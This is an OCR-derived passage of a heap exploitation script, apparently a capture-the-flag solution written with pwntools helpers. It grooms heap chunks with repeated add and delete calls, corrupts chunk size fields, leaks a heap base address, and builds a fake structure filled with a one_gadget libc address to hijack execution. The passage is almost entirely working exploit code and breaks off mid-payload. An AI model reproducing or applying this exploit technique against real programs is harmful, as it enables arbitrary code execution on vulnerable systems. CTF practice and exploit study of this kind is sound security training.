 		add(8,'a','b\n')		#4
		add(8,'a','b\n')		#5
		delete(4)
	
		payload = '\x00'*0x20 + '\x51'
		add(8,'a',payload)		#6
	
		delete(5)
	
		payload = '\x00'*0x2c + p32(0x21) + p32(top_chunk-0xc)
		add(0x48,payload,'b\n')		#7
	
		check()
		ru('To: ')
		heap_base = u32(rv(4)) - 0x1b0
		lg('heap_addr',heap_base)
	
	
	
	
		add(8,'a','b\n')		#8
		add(8,'a','b\n')		#9
		delete(8)
	
		payload = '\x00'*0x20 + '\x99'
		add(8,'a',payload)		#10
		delete(10)
	
		# add(0x28,'a','b\n')
	
		# delete(9)
		
		add(0x60,'a','b\n')		#11
		add(8,'a','b\n')		#12
	
		delete(11)
		add(0x30,'a','b\n')		#13
		delete(12)
		payload = '\x00'*0x20 + p32(0)*7 + p32(0x11)
		add(0x48,payload,'b\n')		#14
		
	
		delete(9)
		delete(7)
		payload = '\x00'*0x2c + p32(0x31) + p32(0) + p32(heap_base+0x2f0)
		payload += '\x00'*0x24 + p32(0xe9)
		add(0x90,payload,'b\n')		#15
	
		delete(13)
	
		one_gadget = libc.address + 0x5f066
		payload = '\x00'*0x30
		payload += p32(0x80) + p32(0xc1) + p32(0xc1) + p32(0xc1)
		payload += p32(0) + p32(1) + p32(1)
		payload += p32(0)*7
		payload += p32(3) + p32(0) + p32(0xffffffff) + p32(0) + p32(heap_base+0x400)
		payload += p32(0xffffffff)*2 + p32(0) + p32(heap_base+0x500)
		payload += p32(0)*3 + p32(0xffffffff) + p32(0)*10
		payload += p32(heap_base+0x310)
		payload += p32(one_gadget)*5
	